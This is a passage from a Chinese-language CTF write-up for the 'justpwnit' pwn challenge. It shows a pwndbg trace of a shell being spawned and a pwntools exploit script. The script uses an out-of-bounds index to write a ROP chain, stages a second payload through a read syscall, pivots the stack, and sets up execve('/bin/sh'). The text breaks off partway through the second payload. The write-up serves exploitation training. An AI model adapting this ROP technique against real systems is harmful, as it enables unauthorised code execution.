 依次执行后能得到shell；

```
 ► 0x403888 <__unlock+59>           syscall  <SYS_execve>
        path: 0x40c540 (buf+704) ◂— 0x68732f6e69622f /* '/bin/sh' */
        argv: 0x0
        envp: 0x0
---------------------------------------------------------------------
pwndbg> n
process 4252 is executing new program: /bin/dash

```

exp如下：

```python
# coding:utf-8

from elftools.construct.adapters import LengthValueAdapter
from pwn import *
elf = ELF('./justpwnit')

def debug(addr, PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr)))

def senddata(idx, data):
    p.recvuntil(": ")
    p.sendline(str(idx))
    p.recvuntil(": ")
    p.sendline(data)

p = process("./justpwnit")
bss_addr = 0x40C240 + 0x300
pop_rdi_ret = 0x401b0d
pop_rsi_ret = 0x4019a3
pop_rdx_ret = 0x403d23
pop_rax_ret = 0x401001
pop_rbx_ret = 0x40142b
pop_rbp_ret = 0x401123
leave_ret = 0x40123b
syscall = 0x403888

# read(%rdi, %rsi, %rdx)
                                                    # leave = mov rbp,rsp; jmp rsp
payload1  = p64(1)                                  # mov rbp, rsp -> rsp point this code
                                                    # then pop rbp -> rsp-4 -> rsp point to next code
payload1 += p64(pop_rdx_ret) + p64(0x100)           # rdx --size
payload1 += p64(pop_rsi_ret) + p64(bss_addr)        # rsi --addr
payload1 += p64(pop_rdi_ret) + p64(0)               # rdi --fd
payload1 += p64(pop_rax_ret) + p64(0)               # rax --syscall number
payload1 += p64(syscall)                            # syscall
payload1 += p64(pop_rbp_ret) + p64(bss_addr)        # rbp->bss_addr
payload1 += p64(leave_ret)
senddata(-2,payload1)


payload2  = '/bin/sh\x00'
payload2 += p64(pop_rdx_ret) + p64(0)               # rdx --envp
payload2 += p64(pop_rsi_ret) + p64(0)               # rsi --argv
payload2 += p64(pop_rdi_ret) + p64(bss_addr)        # rdi --file,addr
```